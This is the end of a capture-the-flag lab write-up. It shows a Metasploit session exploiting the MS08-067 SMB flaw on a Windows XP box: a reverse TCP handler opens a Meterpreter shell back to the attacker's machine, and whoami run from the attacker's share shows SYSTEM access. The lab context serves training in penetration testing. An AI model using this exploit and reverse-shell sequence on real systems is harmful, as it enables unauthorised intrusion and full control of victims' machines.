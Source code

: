 ```shell
msf5 exploit(windows/smb/ms08_067_netapi) > exploit

[*] Started reverse TCP handler on 10.10.14.14:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (176195 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.14:4444 -> 10.10.10.4:1035) at 2020-09-01 17:53:19 +0530

meterpreter > shell
Process 1344 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.


C:\WINDOWS\system32>\\10.10.14.14\cfx\whoami.exe
\\10.10.14.14\cfx\whoami.exe
NT AUTHORITY\SYSTEM
```
And we pwned the Box !

Thanks for reading, Feedback is appreciated !
